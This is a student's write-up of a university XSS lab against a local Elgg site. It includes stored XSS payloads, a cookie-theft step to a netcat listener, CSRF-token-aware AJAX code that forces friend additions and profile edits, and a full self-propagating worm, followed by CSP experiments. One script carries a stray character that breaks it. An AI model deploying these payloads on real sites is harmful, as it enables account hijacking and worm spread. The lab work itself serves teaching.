# 50.020 Network Security Lab 6 XSS Writeup
## Setting up the Environment
1. following the lab instructions I setup the lab environments as seen below
    - 
2. Then i setup the `/etc/hosts` file to include the following lines as per the instructions
    - 
    
## Task 1: Posting malicious alert to display message
1. Since Samy is our attacker, I logged in as Samy and went to the "Edit Profile" page
2. Then the page allows us to edit the html directly but does not sanitize the input being entered, hence we can just click on the "Edit HTML", then enter `<script>alert('XSS');</script>` into the "About Me" section and save it.
    - 
3. Now every time we visit Samy's profile page, the alert box will pop up
    - 
## Task 2: Posting malicious alert to display cookie
1. Similar to task 1, I went to "Edit Profile" page as Samy, and in the "About Me" section, I entered `<script>alert(document.cookie);</script>` and saved it.
    - 
2. Now every time we visit Samy's profile page, the alert box will pop up displaying our cookie
    - 
## Task 3: Stealing cookies from the victim's machine
1. Similar to task 1 and 2, I went to "Edit Profile" page as Samy, and in the "About Me" section, I entered `<script>document.write('');</script>` and saved it.
    - 
2. Then to test this, I now login to alice and I visit Samy's profile page.
    - 
    - The malicious cookie 
3. Then on my netcat listener I see this
    - 
    - We can see that the cookie of Alice who has just visited Samy's profile page is `Elgg=d794ug4fflj2jkoifmnre7bp36`
## Task 4: Adding Samy as friend
1. Since I am logged in as Samy, I went to Charlie's page and added him as friend, then using the Live Headers extension I captured the request being sent:
    - 
    - This is the HTTP GET request URL and its parameters:
    - ```
        http://www.seed-server.com/action/friends/add?friend=58&__elgg_ts=1763475620&__elgg_token=OgSkyewP5kT9W1WwW3klbQ&__elgg_ts=1763475620&__elgg_token=OgSkyewP5kT9W1WwW3klbQ
        ```
    - We see that Charlie's user id is 58 from the `friend=58` parameter
    - We also know that Samy's user id is 59 by inspecting the members list page and finding the GUID there
        - 
    - then we also see that there are 2 parameters `__elgg_ts` and `__elgg_token` which are used for CSRF protection
2. Then using the sample javascript code provided in the lab:
    - ```html
        <script type="text/javascript">
        window.onload = function () {
            var Ajax=null;
            var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
            var token="&__elgg_token="+elgg.security.token.__elgg_token;

            //Construct the HTTP request to add Samy as a friend.
            var sendurl= "http://www.seed-server.com/action/friends/add?friend=59" + ts + token; // set friend=59 to add Samy
            
            //Create and send Ajax request to add friend
            Ajax=new XMLHttpRequest();
            Ajax.open("GET", sendurl, true);
            Ajax.send();
            }
        </script>
        ```
3. Then I enter this code into the "About Me" section of Samy's profile page and save it.
4. We now go to Samy's "Friends Of" page to see who as added Samy as friend as of now
    - 
    - Unsurprisingly, since Samy is a loner and a attention seeking creep, no one has added him as friend yet.
5. Now I log in as our victim Alice and visit Samy's profile page to trigger the malicious code
    - 
    - Initially we do not see any thing happen, but if we now go to Alice's friends page, we see that Samy has been added as friend
    - 
6. Then to verify this actually worked, we login back as Samy and check the "Friends Of" page again
    - 
    - We can see that Alice has added Samy as friend successfully!
    - We also see that Samy has added himself as friend too since he visited his own profile page, which triggered the malicious code as well.
### Task 4 Questions
1. **Explain what is the purpose of lines 1 and 2**
    - Lines 1 and 2 are used to get the CSRF protection tokens `__elgg_ts` and `__elgg_token` from the Elgg security token object. These tokens are required to be included in the HTTP GET request to successfully add a friend, as seen from the captured request in step 1. Then they are formatted into URL parameters to be appended to the HTTP GET request URL.
2. **If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?**
    - No it is no longer possible to launch the same attack without any external tools.
    - As said in the assignment, the Editor mode adds additional HTML code to out input, which will break the javascript code and prevent it from executing correctly.
    - That said, if we have access to a proxy tool like Burp Suite, we can still intercept the POST request when we save the profile page, and modify the "About Me" field to contain our original javascript code before forwarding the request to the server. This way we can still launch a successful attack.
## Task 5: 
1. First we check how the edit profile POST request looks like.
    - 
    - We see from the POST Request we intercepted using Live Headers that the fields for the edit profile page are in the Request Body.
    - ```
        __elgg_token=Y__m_pfLVGFJ7H62PrsozA&__elgg_ts=1763479741&name=Samy&description=sample editing request&accesslevel[description]=2&briefdescription=&accesslevel[briefdescription]=2&location=&accesslevel[location]=2&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2&mobile=&accesslevel[mobile]=2&website=&accesslevel[website]=2&twitter=&accesslevel[twitter]=2&guid=59
        ```
    - we see that the `description` field corresponds to the "About Me" section.
2. Then since we know know how a edit profile POST request looks like, we can use the following HTML code provided by the instructions to launch the attack
    - ```html
        <script type="text/javascript">
            window.onload = function(){
            //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
            //and Security Token __elgg_token
            var userName="&name="+elgg.session.user.name;
            var guid="&guid="+elgg.session.user.guid;
            var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
            var token="&__elgg_token="+elgg.security.token.__elgg_token;
            var userDesc="&description=Hacked by Samy!" + "&accesslevel[description]=2"; // description fild corresponds to "About Me" section`
            //Construct the content of your url.
            var content=token + ts + userName + userDesc + guid; //FILL IN
            var samyGuid='59'; //FILL IN
            var sendurl='http://www.seed-server.com/action/profile/edit'; //FILL IN
            if(elgg.session.user.guid!=samyGuid) ¿
            {
            //Create and send Ajax request to modify profile
            var Ajax=null;
            Ajax=new XMLHttpRequest();
            Ajax.open("POST", sendurl, true);
            Ajax.setRequestHeader("Content-Type",
            "application/x-www-form-urlencoded");
            Ajax.send(content);
            }
            }
            </script>
        ```
3. Then while logged in as Samy, I enter this code into the "About Me" section in the "Edit Profile" page and save it in the HTML edit mode and save it.
    - 
4. Then to tes this, I login as our victim Alice again and visit Samy's profile page to trigger the malicious code.
    - 
    - We see now that in Alice's About Me section, it shows "Hacked by Samy!"

### Task 5 Questions
1. This is to ensure that when Samy saves his edit and is redirected back to his profile page, the malicious code does not execute and modify his own profile page to say "Hacked by Samy!". Which will cause the victims who visit his profile page to not execute the malicious code since it has been overwritten.

## Task 6: Self propagating worm with DOM approach
1. Combining knowledge from task 4 and task 5, and using the DOM API, we can create a self propagating worm that recursively adds Samy as friend to every victim that visits Samy's profile page, then modifies their "About Me" section to include the worm code itself.
2. The javascript I used:
    - ```html
        <script type="text/javascript" id="worm">
            window.onload = function(){
            var headerTag = "<script id=\"worm\" type=\"text/javascript\">";  
            var jsCode = document.getElementById("worm").innerHTML;
            var tailTag = "</" + "script>";
            
            //Put it all together with URI encoding
            var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
            
            //Set description field and access level
            var desc = "&description=Hacked by Samy!" + wormCode;
            desc += "&accesslevel[description]=2";
            
            //Get the name, guid, timestamp, and token
            var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
            var ts    = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
            var name  = "&name=" + elgg.session.user.name;
            var guid  = "&guid=" + elgg.session.user.guid;
            
            //Set the URL
            var sendposturl = "http://www.seed-server.com/action/profile/edit";
            var sendgeturl= "http://www.seed-server.com/action/friends/add" + "?friend=59" + token + ts;
            var content = token + ts + name + desc + guid;
            
            //Construct and send the Ajax request
            if (elgg.session.user.guid != 59){
                //modify profile
                var Ajax=null;
                Ajax = new XMLHttpRequest();
                Ajax.open("POST", sendposturl, true);
                Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
                Ajax.send(content);
            }
            
            //Create and send Ajax request to add friend
            Ajax=new XMLHttpRequest();
            Ajax.open("GET", sendgeturl, true);
            Ajax.send();
            }
        </script>
        ``` 
3. Before we execute the attack, I login as all the different accounts to remove Samy as friend and reset their "About Me" section to blank.
4. Then while logged in as Samy, I enter this code into the "About Me" section in the "Edit Profile" page and save it in the HTML edit mode and save it.
    - 
5. Then now I login as Alice again and visit Samy's profile page to trigger the malicious code.
    - 
    - We see now that in Alice's About Me section, it shows "Hacked by Samy!", but we do not see the worm code itself since it is URI encoded.
6. Then if we now check Alice's friend list, we see that Samy has been added as friend
    - 
7. To verify the worm can self propagate, I now login as Charlie and visit Alice's profile page to trigger the worm again.
    - 
    - We see now that in Charlie's About Me section, it shows "Hacked by Samy!" as well.
8. Then if we now check Charlie's friend list, we see that Samy has been added as friend
    - 
    - We have successfully created a self propagating worm using DOM approach.

## Task 7: CSP experiment
1. When visiting `www.example32a.com`, we see that all the 6 fields are displayed as `ok`
    - 
    - Then when we click on the `Click Me` button to run the javascript code, we see that all the execution is successful.
    - 
    - This is because in `www.example32a.com`, the CSP policy is not set, hence all the javascript code is allowed to execute without any restrictions.
2. When visiting `www.example32b.com`, we see this:
    - 
    - Only javascript code from self and from example70.com are allowed to execute and showed as `ok`, the rest are blocked and showed as `Failed`.
    - Then when the `Click Me` button is clicked to run the javascript code, we do not see any alert box pop up, indicating that the inline javascript code has been blocked from executing.
    - Since the CSP policy, as seen in the code provided in the lab instructions, `www.example32b.com` only accepts script sources from `self` and `*.example70.com` to execute, then everything else is blocked.
3. Then when visiting `www.example32c.com`, we see this:
    - 
    - Only Inline Nonce 111-111-111, and javascript code form self and from example70.com are allowed to execute and showed as `ok`, the rest are blocked and showed as `Failed`.
    - Then when the `Click Me` button is clicked to run the javascript code, we do not see any alert box pop up, indicating that the inline javascript code without the correct nonce has been blocked from executing.
    - Since the CSP policy is not set in the apache2 config file directly, but set through a php program which acts as an entry point and sets the CSP to accept script sources from `self`, `*.example70.com` and `nonce-111-111-111`, then everything else is blocked.
4. To change `example32b.com`'s 5 and 6 to show `ok`, we just need to modify the CSP policy in the apache2 config file to include `*.example60.com`.
    - 
    - Then after restarting apache2 service by running `service apache2 restart`, we visit `www.example32b.com` again and see that 5 and 6 now shows `ok`.
    - 

5. To change `example32c.com`'s 1,2,4,5,6 to show `ok`, we just need to modify the CSP policy in the php program to include the `*.example60.com` and `nonce-222-222-222`.
    -  
    - Then now we restart apache2 service by running `service apache2 restart`, we visit `www.example32c.com` again and see that 1,2,4,5,6 now shows `ok`.
    - 
6. CSP can prevent cross-site scripting attacks by restricting the sources from which scripts can be loaded and executed. By defining a strict Content Security Policy, web applications can limit the execution of potentially malicious scripts that may be injected by attackers. For example, by allowing only scripts from trusted domains and blocking inline scripts or scripts from untrusted sources, CSP can mitigate the risk of XSS attacks. Additionally, using nonces or hashes for inline scripts ensures that only authorized scripts can run, further enhancing security against XSS vulnerabilities.